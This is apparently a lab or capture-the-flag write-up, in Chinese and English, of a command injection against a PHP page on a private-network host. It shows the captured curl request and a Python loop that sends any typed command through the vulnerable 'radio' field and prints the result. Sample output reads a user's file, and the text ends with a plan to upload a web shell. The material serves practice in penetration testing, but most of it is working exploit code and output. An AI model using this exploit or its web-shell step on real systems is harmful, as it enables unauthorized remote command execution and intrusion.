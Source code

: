 copy the url as curl in web broswer

我们可以看到

``` bash
$ curl 'http://192.168.31.241/command.php' \
-H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' \
-H 'Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2' \
--compressed \
-H 'Content-Type: application/x-www-form-urlencoded' \
-H 'Origin: http://192.168.31.241' -H 'Connection: keep-alive' \
-H 'Referer: http://192.168.31.241/command.php' \
-H 'Cookie: PHPSESSID=alidntd129mheml2nuvpq649n5' \
-H 'Upgrade-Insecure-Requests: 1' \
--data-raw 'radio=ls+/&submit=Run'
```
## exp
edit 这个 radio 变量就可以进行远程控制

and i run python to simple exp it 

（直接调用shell了就不用requests库了）

``` python
import os

while 1:
    youCommand=input("cmd=")
    if youCommand == "end":
        break
    response=os.popen("curl 'http://192.168.31.241/command.php' \
            -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' \
            -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' \
            -H 'Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2' \
            --compressed -H 'Content-Type: application/x-www-form-urlencoded'\
            -H 'Origin: http://192.168.31.241' -H 'Connection: keep-alive' \
            -H 'Referer: http://192.168.31.241/command.php' \
            -H 'Cookie: PHPSESSID=alidntd129mheml2nuvpq649n5' \
            -H 'Upgrade-Insecure-Requests: 1' \
            --data-raw 'radio=%s&submit=Run'" %(youCommand)).read()
    print( response.split("<pre>")[1].split("</pre>")[0] )


```

运行效果如下：

``` bash
python <exp>.py
cmd=cat /home/jim/test.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   957    0   919  100    38   149k   6333 --:--:-- --:--:-- --:--:--  155k
#!/bin/bash
for i in {1..5}
do
 sleep 1
 echo "Learn bash they said."
 sleep 1
 echo "Bash is good they said."
done
 echo "But I'd rather bash my head against a brick wall."


 try to send shell.php file
```